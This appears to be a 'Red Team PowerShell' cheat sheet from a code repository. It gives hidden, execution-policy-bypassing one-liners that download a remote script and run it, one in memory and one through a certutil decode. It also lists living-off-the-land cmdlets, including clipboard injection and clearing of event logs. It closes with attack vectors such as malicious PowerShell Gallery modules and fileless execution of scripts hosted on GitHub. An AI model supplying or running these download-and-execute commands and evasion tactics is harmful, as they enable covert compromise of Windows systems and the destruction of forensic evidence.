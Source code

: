 # Red Team PowerShell

## Execute fileless Base64 encoded script from Run Dialog:

```powershell
powershell -NoP -W H -Ep Bypass &([scriptblock]::Create([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((irm LINK)))))
```

## Download and execute Base64 encoded script from Run Dialog:

```powershell
powershell -NoP -W H -Ep Bypass irm LINK -O $env:USERPROFILE\e.txt;certutil -f -decode $env:USERPROFILE\e.txt $env:USERPROFILE\d.ps1;iex $env:USERPROFILE\d.ps1
```

------------------------------

# Living of the Land Cmdlets:

| Cmdlet                  | Description                                                                                          |
|-------------------------|------------------------------------------------------------------------------------------------------|
| Get-StartApps           | Used to retrieve a list of Start menu apps and tiles for the current user on a Windows operating system. |
| Set-Clipboard           | Used to set clipboard content. Essentially clipboard injection.                                       |
| Get-Clipboard           | Retrieve clipboard content.                                                                          |
| Get-LocalUser           | Return all local users on the system.                                                                |
| Get-NetFirewallProfile  | Gets properties for a firewall profile.                                                              |
| Get-NetFirewallRule     | Gets properties for a firewall rule.                                                                 |
| Get-ComputerInfo        | Retrieves all system and operating system properties from the computer                               |
| Get-Service             | Retrieves a list of all services on the computer                                                     |
| Get-EventLog            | Retrieves events and event logs from local and remote computers (only available in Windows PowerShell 5.1) |
| Get-Process             | Retrieves a list of all active processes on a local or remote computer                               |
| Clear-EventLog          | Deletes all of the entries from the specified event logs on the local computer or on remote computers |
| Clear-RecycleBin        | Deletes the content of a computer's recycle bin                                                       |

# Attack Vectors:

### PowerShell Gallery Modules

- Upload PowerShell Gallery module and import it onto targets systems. This method allows widge range use as most Windows computers has PowerShell enabled. This method also exploits trusted Windows applications, making it harder to detect. This method could also potentially assist in elevated privileges. However, when a module is imported from PowerShell Gallery, it touches the hard drive and is typically saved to `"C:\Users\USER\Documents\PowerShell\Modules\"`.

### Fileless PowerShell Script Execution

- You can upload a file to a remote server and fetch the raw contents of the script and save it as a PowerShell variable and then execute that variable. This allows the execution of PowerShell scripts without the script ever touching the hard drive. The script is saved as a variable, which is only stored in memory for that current session. Using GitHub to host the PowerShell script is a common tactic.

### Decode Base64 using PowerShell

- You can decode Base64 directly in PowerShell. Using `Convert.FromBase64String()` you can decode the content from Base64 to binary. You would then use `[Text.Encoding]::UTF8.GetString()` to convert the binary data to a regular string.

For example:

```powershell
# convert base64 string to binary
$binary = [System.Convert]::FromBase64String("aGVsbG8=")

# convert binary data to string
$string = [System.Text.Encoding]::UTF8.GetString($binary)

# print the string
$string

# you can also convert strings to base64
$base64 = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("Hello"))
```

- You can also decode Base64 using `certutil`. `Certutil` is a command-line utility in Windows operating systems primarily designed for managing certificates. You can decode Base64 by simply running `certutil -f -decode path/to/file`.


